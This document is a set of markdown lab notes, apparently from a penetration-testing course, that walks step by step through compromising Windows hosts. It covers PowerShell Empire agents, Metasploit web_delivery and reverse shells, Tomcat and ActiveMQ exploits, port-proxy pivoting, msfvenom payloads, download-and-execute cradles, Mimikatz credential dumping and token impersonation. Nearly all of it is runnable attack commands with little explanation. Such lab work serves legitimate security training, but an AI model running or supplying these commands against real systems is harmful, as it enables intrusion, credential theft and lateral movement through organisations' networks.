

# Powershell Labs

## LeVeraging Powershell During Exploitation

`python3 smbexec.py 'local_admin:P@ssw0rd123'@172.16.80.100`
`ipconfig`
`echo %userdomain%`

>`sudo powershell-empire`
`uselistener http`
`info`
`set Host [our_ip]`
`execute`
`main`
`usestager multi/launcher`
`set listener http`
`execute` and copy paste decoded command in the shell and will get an agent in powershell empire.
`agents`
`interact [agent_name]`
`usemodule situational_awareness/network/arpscan`
`set CIDR 10.100.11.0/24`
`set Agent [agent_name]`
`execute`
`usemodule powershell/situational_awareness/network/portscan`
`set Hosts 10.100.11.100`
`set Agent [agent_name]`
`execute`

To transfer control to metasploit. In metasploit:

> `use exploit/multi/script/web_delivery`
`set target 2`
`set SRVHOST 175.12.80.21`
`set payload windows/meterpreter/reverse_tcp`
`set LHOST 175.12.80.21`
`exploit -j`

And in powershell-empire:
> `usemodule code_execution/invoke_metasploitpayload`
`set URL http://175.12.80.21:8080/JAFRM0WEjw6cf`
`set Agent [agent_name]`
`execute`

In metasploit we will get a meterpreter session:
> `use post/multi/manage/autoroute`
`set SESSION 1`
`run`
`use auxiliary/server/socks4a`
`set SRVHOST 175.12.80.21`
`run`

`use post/windows/manage/portproxy`
`set CONNECT_ADDRESS [our_ip]`
`set CONNECT_PORT 4444`
`set LOCAL_ADDRESS [interface_of_the_next victim]`
`set LOCAL_PORT 4444`
`set SESSION 1`
`run`
`use exploit/multi/http/tomcat_jsp_upload_bypass`
`set RHOST 10.100.11.100`
`set RPORT 8443`
`set LHOST [ip_address of the first target that we are able to access directly]`
`set payload java/jsp_shell_reverse_tcp`
`run`

Then generate payload:
> `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.100.11.101 LPORT=4444 -f exe > /tmp/payload.exe`
`cd /tmp && ppython3 -m http.server 8000`

Then create another proxy for transferring payload to tomcat:
> `use post/windows/manage/portproxy`
`set CONNECT_ADDRESS [our_ip]`
`set CONNECT_PORT 8000`
`set LOCAL_ADDRESS [interface_of_the_next victim]`
`set LOCAL_PORT 8000`
`set SESSION 1`
`run`

We then need to configure a new listener to accept the connection from our payload.exe once we execute it on the Tomcat system, but first, we need to kill our previous listener:
> `jobs -K`
`use exploit/multi/handler`
`set payload windows/meterpreter/reverse_tcp`
`set LHOST 175.12.80.21`
`set LPORT 4444`
`exploit -j`

>`C:\Program Files\Apache Software Foundation\Tomcat 7.0>powershell -c iex (New-Object Net.WebClient).DownloadFile('http://10.100.11.101:8000/payload.exe', 'C:\Windows\Temp\payload.exe')`
`C:\Program Files\Apache Software Foundation\Tomcat 7.0>C:\windows\temp\payload.exe`

Obtaining hashes:

> `C:\Program Files\Apache Software Foundation\Tomcat 7.0> powershell -c iex (New-Object Net.WebClient).DownloadString('http://10.100.11.101:8000/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds`

psinject module in powershell-empire also can help.

***
***

## Powershell for Post-Exploitation and Lateral Movements

[https://github.com/coffeehb/Some-PoC-oR-ExP/blob/master/ActiveMQExP/ActiveMQExPV1.0.py](https://github.com/coffeehb/Some-PoC-oR-ExP/blob/master/ActiveMQExP/ActiveMQExPV1.0.py)

`python ActiveMQExPV1.0.py -url http://172.17.80.100:8161/ -user admin -pass admin -shell cmd.jsp`

Then go to the url obtained.

> `use exploit/multi/script/web_delivery`
`set target 2`
`set payload windows/x64/meterpreter/reverse_tcp`
`set LHOST 175.13.80.16`
`set LPORT 4444`
`set SRVHOST 175.13.80.16`
`set ExitOnSession False`
`exploit -j`

Copy paste the powershell command to the webshell and execute it then we will obtain meterpreter shell.

In meterpreter shell:
> `run autoroute -s 10.100.11.0/24`
`use incognito`
`list_tokens -u`
`impersonate_token ELS-CHILD\\local_admin`

In terminal start a python server:`python3 -m http.server 8000`

In meterpreter shell:
> `shell`
`powershell "IEX (New-Object Net.WebClient).DownloadString('http://175.13.80.16:8000/PowerView.ps1'); Get-NetDomainController"`
`powershell "IEX (New-Object Net.WebClient).DownloadString('http://175.13.80.16:8000/PowerView.ps1'); Find-LocalAdminAccess"`
Go back to meterpreter shell.
`rev2self` for getting back old priveleages.
`download c:\UAT\uat_test_account.txt /tmp/`
`use post/windows/gather/arp_scanner`
`set RHOSTS 10.100.11.0/24`
`SESSION 1`
`use post/windows/manage/portproxy`
`set CONNECT_ADDRESS 175.13.80.16`
`set CONNECT_PORT 4444`
`set LOCAL_ADDRESS 10.100.11.101`
`set LOCAL_PORT 4444`
`set SESSION 1`
`run`

> `use exploit/windows/local/powershell_remoting`
`set SESSION 1`
`set SMBUSER local_admin`
`set SMBPASS P@ssw0rd123`
`set SMBDOMAIN ELS-CHILD`
`set RHOSTS 10.100.11.100`
`set payload windows/x64/meterpreter/reverse_tcp`
`set LHOST 10.100.11.101`
`set LPORT 4444`
`exploit -j`

To move to another host in same network we only need to some changes to the above module;
> `set SESSION 2`
`set RHOSTS 10.100.10.253`
`exploit -j`

***
***